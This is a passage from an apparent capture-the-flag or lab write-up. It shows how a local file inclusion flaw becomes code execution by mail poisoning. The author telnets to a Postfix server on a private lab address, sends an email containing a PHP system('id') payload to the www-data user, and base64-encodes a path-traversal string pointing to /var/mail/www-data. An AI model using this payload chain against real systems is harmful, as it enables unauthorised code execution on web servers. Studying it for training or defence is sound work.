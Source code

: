 ![evidence](./static/06-payloadallthethings.png)

And if I send an email to the current user of the `HTTP` service, then I could read it with the `LFI` in the default path, `/var/mail/<user>`, and if I send PHP code in the email, the `LFI` will execute it. When I test it, and I open a connection with the `Postfix` service using telnet:
```shell
$ telnet 192.168.2.38 25
```
And I send the following commands:
```shell
VRFY www-data
mail from: test@example.com
rcpt to: www-data
data
subject: testing
Look my id <?php system('id'); ?>
.
```
And now I encoded the mail path of the user `www-data`:
```shell
$ echo -n "../../../../var/mail/www-data" | base64
Li4vLi4vLi4vLi4vdmFyL21haWwvd3d3LWRhdGE=
```
Then I see with the `LFI` the email:

![evidence](./static/07-lfi-mail.png)
